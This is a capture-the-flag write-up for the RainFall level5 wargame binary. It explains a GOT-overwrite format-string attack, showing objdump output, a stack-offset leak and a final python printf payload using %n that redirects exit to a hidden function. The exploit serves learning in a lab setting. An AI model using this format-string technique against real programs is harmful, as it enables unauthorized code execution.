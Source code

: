 We open the binary in dogbolt. We can see that we have to call the function `o`.
Here will do the same as previous levels using printf.

First We find will the address where to write.
Here we see that the `n` function does `return` but instead use a `exit` so it doesn't return in main.
Here the address to overwrite is the address of the exit function.
Ok we will do  a GOT overwrite, when a progam is executed it initialized the GOT (Global offset Table) for every external function (lib function),
it will cache memory address in the GOT so it doesn't have to ask the lib (here libc) for every external function call.
```Shell
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
here the address is : 08049838
in little endian : /x38/x98/x04/x08


The address of `o`.
```Shell
level5@RainFall:~$ objdump -t level5
...
080484a4 g     F .text  0000001e              o
...
```
address : 080484a4
converted in decimal : 134513828


Let's find the offset of the buffer :
```
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```
Here we find the address of the buffer at %4$p

Let's put this together:
Here we do not forget to substract 4 bytes for the address
``` Shell
python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit1 && cat /tmp/exploit1 - | ./level5
```

To go further :
https://axcheron.github.io/exploit-101-format-strings/
